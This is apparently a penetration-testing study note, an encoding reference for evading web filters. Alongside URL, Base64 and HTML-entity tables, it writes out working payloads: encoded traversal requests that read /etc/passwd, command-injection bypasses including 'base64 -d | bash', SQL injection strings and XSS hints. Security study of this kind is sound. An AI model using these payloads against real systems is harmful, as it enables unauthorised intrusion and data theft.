

---
tags:
  - encoding
  - reference
  - url-encoding
  - bypass
  - index
---

# 🔣 Encoding Reference

> [!abstract] Why encoding matters
> Web apps and filters often block characters like `/`, `.`, `'`, `<`. **Encoding** disguises those characters so they slip past filters but still mean the same thing to the server. This is the heart of bypassing traversal, SQLi, and XSS filters.

> [!tip] Fastest tool: [CyberChef](https://gchq.github.io/CyberChef) — drag "URL Encode" / "From Base64" recipes. Save an offline copy before the exam.

---

## 🌐 URL / Percent Encoding (the big one)

Each character becomes `%` + its hex code. Memorise the starred ⭐ ones.

| Char | Encoded | Char | Encoded |
|------|---------|------|---------|
| `space` | `%20` ⭐ | `/` | `%2f` ⭐ |
| `.` | `%2e` ⭐ | `\` | `%5c` |
| `:` | `%3a` | `?` | `%3f` |
| `=` | `%3d` | `&` | `%26` |
| `#` | `%23` | `%` | `%25` ⭐ |
| `'` | `%27` ⭐ | `"` | `%22` |
| `<` | `%3c` ⭐ | `>` | `%3e` ⭐ |
| `(` | `%28` | `)` | `%29` |
| `;` | `%3b` | `+` | `%2b` |
| `null` | `%00` | newline | `%0a` |

> [!example] Directory traversal with encoded dots
> ```bash
> # Blocked:
> curl "http://$IP/page?file=../../../../etc/passwd"
> # Encoded dots bypass the ../ filter:
> curl "http://$IP/page?file=%2e%2e/%2e%2e/%2e%2e/etc/passwd"
> ```
> See [[Encoding special characters]] for the full worked example.

---

## 🔁 Double Encoding

When the server decodes **once**, encode **twice**. The `%` itself becomes `%25`.

| Want | Single | Double |
|------|--------|--------|
| `/` | `%2f` | `%252f` |
| `.` | `%2e` | `%252e` |

> [!warning] Try double encoding when single encoding gets stripped but the page still rejects you — a proxy/WAF may be decoding once before the app sees it.

---

## 🔤 Base64

> [!example]
> ```bash
> echo -n 'cat /etc/passwd' | base64           # encode  ->  Y2F0IC9ldGMvcGFzc3dk
> echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d      # decode
> ```
> Common in: PHP filter LFI (`php://filter/convert.base64-encode/...`), encoded payloads, tokens, basic-auth headers.

---

## 🅷 HTML Entities (for XSS / output that gets escaped)

| Char | Entity | Numeric |
|------|--------|---------|
| `<` | `&lt;` | `&#60;` |
| `>` | `&gt;` | `&#62;` |
| `"` | `&quot;` | `&#34;` |
| `'` | `&#x27;` | `&#39;` |
| `&` | `&amp;` | `&#38;` |

> [!tip] If your `<script>` shows up as text on the page, the app is HTML-encoding it. Try breaking out of an attribute, or use event handlers like `onerror`. See [[Basic XSS]].

---

## 🧱 Filter Bypass Cheats by attack



> [!example] Command injection space/keyword bypasses
> ```bash
> cat${IFS}/etc/passwd          # ${IFS} = space
> ca''t /etc/passwd             # quotes break keyword filters
> echo Y2F0... | base64 -d | bash   # smuggle via base64
> %0a id                        # newline to chain a command
> ```

> [!example] SQLi space bypasses
> ```sql
> SELECT/**/username/**/FROM/**/users     -- /**/ replaces spaces
> ' OR 1=1-- -                            -- classic auth bypass (note trailing space)
> ' UNION/**/SELECT/**/1,2,3-- -
> ```

---

## Related
- [[Encoding special characters]]
- [[🧰 Command Cheat Sheet]]
- [[Identifying and exploiting directory traversals]]
- [[Command Injection]]

> [!info] Section: [[🏠 Home]]
